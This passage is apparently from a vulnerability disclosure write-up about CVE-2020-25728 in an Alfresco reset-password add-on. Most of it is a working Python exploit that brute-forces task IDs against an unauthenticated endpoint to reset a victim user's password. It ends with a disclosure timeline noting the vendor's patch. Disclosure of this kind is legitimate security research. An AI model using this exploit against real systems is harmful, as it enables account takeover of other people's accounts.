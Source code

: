 ```python
    'Content-Type': 'application/json',
    'Connection': 'close',
}


for i in range(1000):
    payload = {
        "new-password":newPassword,
        "new-password-confirm":newPassword,
        "taskId":"activiti${}".format(retreivedTaskId + i),
        "userToken":victimUser,
        "save":"undefined"
    }
    r = requests.post(host + '/share/proxy/alfresco-noauth/com/flex-solution/applyChangedPassword', json=payload, headers=header, verify=False)
    if (int(r.status_code) == 200):
        print "Password Changed !"
        print "User Name : {}".format(victimUser)
        print "Task ID : {}".format(retreivedTaskId + i)
        print "Password : {}".format(newPassword)
        break
```

### PWN

{{< figure src="/img/Alfresco-Reset-Password-add-on-0-day-Vulnerabilities/pwn.png" width="80%" >}}

### Timeline

- 01/09/2020: Vulnerability Discovery
- 04/09/2020: Vulnerabilities Report 
- 16/09/2020: Vulnerability Patch and the Vendor release a new version 1.2.0
- 17/09/2020: CVE assigned [CVE-2020-25728](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25728)